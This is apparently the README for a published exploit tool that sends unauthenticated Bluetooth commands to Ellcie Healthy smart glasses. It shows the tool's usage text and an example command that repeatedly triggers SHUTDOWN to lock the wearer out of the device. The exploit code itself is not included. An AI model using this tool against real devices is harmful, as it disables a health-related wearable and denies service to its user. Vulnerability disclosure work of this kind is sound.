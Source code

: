 

# Ellcie Healthy glasses : Remote Command Execution

>    usage: ellcieExploiter.py [-h] --address ADDRESS --action {BEEP,SHUTDOWN}   [--init {1,0}] [--keepsending {1,0}] 


optional arguments:

	  -h, --help            show this help message and exit
	 --address ADDRESS     Glasses BLE addresses
	 --action {BEEP,SHUTDOWN} Action to be executed 
	 --init {1,0}          Should the script activate bluetooth
	 --keepsending {1,0}   Should we keep sending the request ? Doing so will
	                       constantly send the action. That means for example if
	                       you jam the device and send the shutdown request, the
	                       user won't be able to reconnect again, as the device
	                       with again and again shutdown.


### Exemple 

    python3 ellcieExploiter.py  --address=E7:60:74:B4:98:3E --init=0 --keepsending=1 --action=SHUTDOWN -h
